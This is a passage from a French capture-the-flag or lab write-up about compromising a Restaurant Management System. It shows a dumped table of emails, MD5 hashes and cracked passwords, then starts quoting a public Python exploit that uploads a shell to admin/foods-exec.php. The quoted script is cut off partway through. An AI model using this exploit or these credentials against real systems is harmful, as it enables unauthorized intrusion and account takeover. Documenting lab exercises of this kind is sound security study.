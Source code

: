 ![Untitled 6](https://user-images.githubusercontent.com/68467919/210107902-09c29210-8070-4135-8a2b-d941ac8fd15c.png)

Nous pouvons garder ce mot de passe même si je doute qu’il soit possible de le réutiliser plus tard.

Dans la table ***members***, voici les tables qui s’y trouvent : 

![Untitled 7](https://user-images.githubusercontent.com/68467919/210107911-6b603d7f-1e0b-423b-9aa3-84e4c447dc22.png)

Nous pouvons trouver les données suivantes dans les colonnes **login** et **passwd** : 

| email | hash | cracked |
| --- | --- | --- |
| jsmith@sample | 1254737c076cf867dc53d60a0364f38e | jsmith123 |
| edward@zeno.com | 6f72ea079fd65aff33a67a3f3618b89c | ?? |
| omolewastephen@gmail.com | 81dc9bdb52d04dc20036dbd8313ed055 | 1234 |

Aucun de ces mots de passes me permettent de me connecter en SSH ou sur un compte admin. 

## Restaurant Management System (RMS)

En regardant un peu le site et en cherchant sur internet “Restaurant Management System”, nous pouvons remarquer que ce système de gestion est vulnérable à une RCE.

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47520)

*Restaurant Management System*: 

[Restaurant Management System using PHP/MySQLi with Source Code](https://www.sourcecodester.com/php/11815/restaurant-management-system.html)

```python
#!/usr/bin/python

import requests
import sys

print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|

""")
print ("Credits : All InfoSec (Raja Ji's) Group")
url = sys.argv[1]

if len(sys.argv[1]) < 8:
        print("[+] Usage : python rms-rce.py http://localhost:80/")
        exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
```